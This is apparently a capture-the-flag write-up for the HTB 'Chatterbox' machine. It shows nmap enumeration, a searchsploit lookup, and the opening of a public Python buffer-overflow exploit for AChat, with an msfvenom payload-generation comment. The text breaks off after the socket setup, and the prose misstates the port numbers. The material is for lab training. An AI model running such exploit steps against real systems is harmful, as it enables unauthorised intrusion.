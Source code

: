 ## Skills Learned
* Modifying public exploits
* Enumerating Window Registry
* Powershell reverse shell


 
---
## Enumeration
### Nmap
```java
# Nmap 7.60 scan initiated Sat Apr  4 00:42:06 2020 as: nmap -Pn -sC -sV -v -p9255,9256 -o full.nmap chatterbox.htb
Nmap scan report for chatterbox.htb (10.10.10.74)
Host is up (0.54s latency).

PORT     STATE SERVICE VERSION
9255/tcp open  http    AChat chat system httpd
|_http-favicon: Unknown favicon MD5: 0B6115FAE5429FEB9A494BEE6B18ABBE
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: AChat
|_http-title: Site doesn't have a title.
9256/tcp open  achat   AChat chat system
```

Looking at the nmap output we see `http` runnig on port `92555` and its version is `AChat chat system httpd`. On port `9526` we see `achat` service running.

Doing `searchsploit` for this application. It reveals that it is vulnerable to `Remote Buffer Overflow`. Since we're not aware of its version Initally we're assuming its vulnerable.
```
Achat 0.150 beta7 - Remote Buffer Overflow                                                 | exploits/windows/remote/36025.py
Achat 0.150 beta7 - Remote Buffer Overflow (Metasploit)                                    | exploits/windows/remote/36056.rb
```

We've both a `python` and `metasploit` exploit for `Achat`. we'll work with the `python` exploit. Now, we can copy the script by specifing `-m(mirror)` flag to the searchsploit.
```
searchsploit -m exploits/windows/remote/36025.py
```
```python
#!/usr/bin/python

import socket
import sys, time

# msfvenom -a x86 --platform Windows -p windows/exec CMD=calc.exe -e x86/unicode_mixed -b '\x00\x80\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\
#x8f\x90\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0\xb1\xb2\xb3\xb4\xb5\
#xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\
#xdd\xde\xdf\xe0\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff' BufferRegister=
#EAX -f python

#payload
<BUFFER payload>

# Create a UDP socket
sock = socket.socket(socket.AF_INET, socket.SOCK_DGRAM)
server_address = ('10.10.10.74', 9256)
```